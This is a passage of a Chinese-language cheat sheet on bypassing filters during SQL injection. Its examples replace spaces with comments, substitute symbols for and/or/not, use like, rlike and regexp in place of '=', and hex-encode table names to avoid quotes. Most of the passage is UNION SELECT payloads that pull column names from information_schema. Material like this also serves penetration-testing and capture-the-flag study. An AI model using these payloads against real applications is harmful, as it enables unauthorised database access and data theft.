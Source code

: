 举例

    union/**/select/**/1,2
    select(passwd)from(users)  #注意括号中不能含有*
    select`passwd`from`users`
    
#### or and xor(异或) not

    and => &&
    or => ||
    xor => |
    not => !
    
#### =

不加通配符的like执行的效果和=一致，所以可以用来绕过

举例

    UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name like "users"
    
rlike:模糊匹配，只要字段的值中存在要查找的 部分 就会被选择出来，用来取代=时，rlike的用法和上面的like一样，没有通配符效果和=一样

举例

    UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name rlike "users"
    
regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配

举例

    UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name regexp "users"
    
使用大小于号来绕过

举例

    select * from users where id > 1 and id < 3
    
<> 等价于 !=，所以在前面再加一个!结果就是等号了

举例

    select * from users where !(id <> 1)

#### 大小于号

在sql盲注中，通常使用大小于号来判断ascii码值的大小来达到爆破效果

#### 引号

使用十六进制

举例

    UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name=0x61645F6C696E6B
    